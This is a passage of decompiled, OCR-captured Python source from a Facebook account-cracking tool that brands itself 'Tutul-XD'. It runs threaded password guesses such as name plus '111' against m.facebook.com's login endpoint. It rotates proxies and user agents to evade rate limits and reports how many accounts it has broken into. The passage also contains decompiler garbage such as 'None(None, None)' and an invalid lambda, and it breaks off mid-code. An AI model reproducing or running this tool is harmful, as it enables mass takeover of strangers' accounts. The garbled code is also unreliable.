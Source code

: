         pwv.append(frs + '111')
        pool.submit(crack, idf, pwv)
        None(None, None)
        if not None:
            pass
    print('')
    TUTULj('\n\x1b[10;97m[\x1b[10;92m+\x1b[10;97m]============================================')
    TUTULj('\x1b[10;97m[\x1b[10;92m+\x1b[10;97m] \x1b[10;96mCLONING COMPLETE BRO')
    TUTULj(f'''\x1b[10;97m[\x1b[10;92m+\x1b[10;97m] \x1b[10;92mCOMPLETE YOUR TOTAL OK IDz \x1b[10;91m:\x1b[10;92m {h}%s ''' % ok)
    TUTULj('\x1b[10;97m[\x1b[10;92m+\x1b[10;97m]============================================')
    input('\x1b[10;97m[\x1b[10;92m+\x1b[10;97m] \x1b[10;91mCLICK ENTER TO EXIT ')


def crack(idf, pwv):
    global cp, ok, loop
    bo = random.choice([
        m,
        k,
        h,
        b,
        u,
        x])
    (sys.stdout.write(f'''\r\x1b[10;97m[\x1b[10;92m=\x1b[10;97m]\x1b[10;91m~\x1b[10;97m[{bo}Tutul-XD\x1b[10;97m]\x1b[1;90m>~{P}[{h}{loop}{P}]>~<[{h}{len(id)}{P}]{bo}-{P}[{h}Ok{P}-{bo}{ok}{P}] '''),)
    sys.stdout.flush()
    ua = random.choice(ugen)
    ua2 = random.choice(ugen2)
    ses = requests.Session()
    for pw in pwv:
        nip = random.choice(prox)
        proxs = {
            'http': 'socks4://' + nip }
        ses.headers.update({
            'Host': 'm.facebook.com',
            'upgrade-insecure-requests': '1',
            'user-agent': ua2,
            'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9',
            'dnt': '1',
            'x-requested-with': 'mark.via.gp',
            'sec-fetch-site': 'same-origin',
            'sec-fetch-mode': 'cors',
            'sec-fetch-user': 'empty',
            'sec-fetch-dest': 'document',
            'referer': 'https://m.facebook.com/',
            'accept-encoding': 'gzip, deflate br',
            'accept-language': 'en-GB,en-US;q=0.9,en;q=0.8' })
        p = ses.get('https://p.facebook.com/login/device-based/password/?uid=' + idf + '&flow=login_no_pin&refsrc=deprecated&_rdr')
        dataa = {
            'lsd': re.search('name="lsd" value="(.*?)"', str(p.text)).group(1),
            'jazoest': re.search('name="jazoest" value="(.*?)"', str(p.text)).group(1),
            'uid': idf,
            'next': 'https://p.facebook.com/login/save-device/',
            'flow': 'login_no_pin',
            'pass': pw }
        koki = (lambda .0: for key, value in .0:
[ f'''{key!s}={value!s}''' ])(p.cookies.get_dict().items()())
        koki += ' m_pixel_ratio=2.625; wd=412x756'
        heade = {
            'Host': 'm.facebook.com',
            'cache-control': 'max-age=0',
